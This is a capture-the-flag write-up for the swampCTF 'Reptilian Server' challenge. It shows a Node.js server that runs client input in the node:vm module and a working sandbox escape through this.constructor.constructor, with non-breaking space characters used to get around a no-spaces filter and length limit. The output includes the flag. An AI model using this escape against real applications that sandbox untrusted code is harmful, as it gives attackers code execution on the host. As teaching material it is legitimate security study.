 "Reptilian Server"

For this challenge, we're presented with a target host and a `server.js` file:

           const vm = require('node:vm');  
           const net = require('net');

           // Get the port from the environment variable (default to 3000)  
           const PORT = process.env.PORT || 3000;

           // Create a TCP server  
           const server = net.createServer((sock) => {  
               console.log('Client connected!');  
               sock.write(`Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.\n`);

               const box = vm.createContext(Object.create({  
                   console: {  
                       log: (output) => {  
                           sock.write(output + '\n');  
                       }  
                   },  
                   eval: (x) => eval(x)  
               }));

               sock.write(`Environment created, have fun playing with the environment!\n`);

               sock.on('data', (data) => {  
                   const c = data.toString().trim();

                   if (c.indexOf(' ') >= 0 || c.length > 60) {  
                       sock.write("Intruder Alert! Removing unwelcomed spy from centeralized computing center!");  
                       sock.end();  
                       return;  
                   }

                   try {  
                       const s = new vm.Script(c);  
                       s.runInContext(box, s);  
                   } catch (e) {  
                       sock.write(`Error executing command: ${e.message} \n`);  
                   }  
               });

               sock.on('end', () => { console.log('Client disconnected!'); });  
           });

           // Handle server errors  
           server.on('error', (e) => {  
               console.error('Server error:', e);  
           });

           // Start the server listening on correct port.  
           server.listen(PORT, () => {  
               console.log(`Server listening on port ${PORT}`);  
           });  

By looking through this source, we can see that it's using nodejs' native `vm`
package to sandbox the commands we send over the network.

However, it's extremely important to note that this is not a secure vm, as
stated on nodejs' official documentation.

The `vm` module simply separates the context of our new invoked code from the
`server.js` application's code, and doesn't prevent child code from accessing
parent constructors.

As such, we can escape the vm and run code in the `server.js` context by
calling into our vm's constructor:

           this.constructor.constructor("return SOMETHINGHERE")()  

Let's send the exploit with a test payload, dumping the vm's `process.argv`!

           Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.  
           Environment created, have fun playing with the environment!

           c = this.constructor.constructor("return process.argv")  
           console.log(c())  

           Intruder Alert! Removing unwelcomed spy from centeralized computing center!  

Looks like we're missing something. As it turns out, there are two checks run
on the commands we send:

   Command length must be less than or equal to 60 characters.  
   Command must not contain spaces.

           ...  
           if (c.indexOf(' ') >= 0 || c.length > 60) {  
               sock.write("Intruder Alert! Removing unwelcomed spy from centeralized computing center!");  
               sock.end();  
               return;}  
           ...  

This is a problem for our exploit, since there's a space in the parent
constructor's argument. However, there are any number of characters that
nodejs will recognize as a space delimiter, one of which is `0xa0`. Let's try
embedding this character in place of regular spaces in our exploit, and as a
bonus, splitting up our payload into lines less than 60 characters.

           Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.  
           Environment created, have fun playing with the environment!

           c=this.constructor.constructor  
           x="return\xa0process.argv"  
           console.log(c(x)())  
  
           /usr/local/bin/node,/server.js,server_max_limit=600,language=Reptilian,version=1.0.0,flag=swampCTF{Unic0d3_F0r_Th3_W1n},shutdown_condition=never

Awesome! There's our flag.  
**swampCTF{Unic0d3_F0r_Th3_W1n}  
**

Original writeup (https://nop.so/blog/ctf/0001).